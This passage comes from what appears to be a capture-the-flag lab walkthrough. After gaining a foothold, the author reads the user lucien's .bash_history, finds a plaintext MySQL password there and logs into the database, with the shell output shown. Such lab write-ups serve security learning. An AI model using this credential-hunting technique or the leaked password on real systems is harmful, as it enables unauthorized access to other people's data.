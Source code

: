 - GOTEM COACH! Since we have read access in `/opt` directory and the script is also there, now we have info about MySQL database. Unfortunately we don't have any credentials to access it.

- After looking around a bit, I found `lucien` credentials for MySQL db.

  ```
  lucien@ip-10-10-60-142:~$ cat .bash_history 
  ls
  cd /etc/ssh/
  clear
  nano sshd_config
  su root
  cd ..
  ls
  cd ..
  cd etc
  ls
  ..
  cd ..
  cd usr
  cd lib
  cd python3.8
  nano shutil.py 
  clear
  clear
  su root
  cd ~~
  cd ~
  clear
  ls
  mysql -u lucien -plucien42DBPASSWORD
  ls -la
  cat .bash_history 
  cat .mysql_history 
  [SNIP!]
  ```

- Let's check the database now.

  ```
  lucien@ip-10-10-60-142:~$ mysql -u lucien -p
  Enter password: 
  Welcome to the MySQL monitor.  Commands end with ; or \g.
  Your MySQL connection id is 10
  Server version: 8.0.41-0ubuntu0.20.04.1 (Ubuntu)
  
  Copyright (c) 2000, 2025, Oracle and/or its affiliates.
  
  Oracle is a registered trademark of Oracle Corporation and/or its
  affiliates. Other names may be trademarks of their respective
  owners.
  
  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
  
  mysql> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | library            |
  | mysql              |
  | performance_schema |
  | sys                |
  +--------------------+
  5 rows in set (0.08 sec)
  
  ```